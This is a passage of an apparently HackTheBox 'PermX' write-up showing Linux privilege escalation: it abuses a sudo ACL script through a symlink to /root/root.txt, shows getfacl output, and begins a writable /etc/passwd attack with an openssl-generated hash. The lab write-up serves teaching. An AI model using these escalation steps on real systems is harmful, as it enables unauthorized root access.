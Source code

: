 There’s also a cleanup job running every 3 minutes resetting a lot of these methods, which isn’t too annoying, but worth being aware of.

#### root.txt [Fail]

To abuse the script above, I’ll use a symbolic link to set permissions on a file I want access to. Unfortunately, I can’t just set permission on `root.txt` and read it:

```

mtz@permx:~$ ln -s /root/root.txt
mtz@permx:~$ ls -l
total 4
lrwxrwxrwx 1 mtz  mtz 14 Jul  7 12:01 root.txt -> /root/root.txt
-rw-r----- 1 root mtz 33 Jan 20 18:16 user.txt
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/root.txt 
mtz@permx:~$ cat root.txt 
cat: root.txt: Permission denied

```

I can check later with a root shell and see that the permissions are set:

```

root@permx:~# getfacl root.txt 
# file: root.txt
# owner: root
# group: root
user::rw-
user:mtz:rwx
group::r--
mask::rwx
other::---

```

But without `x` access on `/root`, the mtz user can’t get to the file to read it. This also eliminates writing to files like `/var/spool/cron/crontabs/root`, as without access to `crontabs` (which is only accessible by root), mtz can’t open the file even if they have permission.

#### passwd

I’ve shown escalation via writable `/etc/passwd` file a few times before (most recently on [Holday Hack 2023](/holidayhack2023/scaredykite#modify-etcpasswd) and [HTB Altered](/2022/03/30/htb-altered.html#exploit-etcpasswd)). I’ll generate a hash for a simple password like “0xdf”:

```

mtz@permx:~$ openssl passwd -1 0xdf
$1$k3KMFmEw$AnPBUU.iz.aGzxKJ8IRjB1

```

Now I’ll make an entry for a `passwd` file:
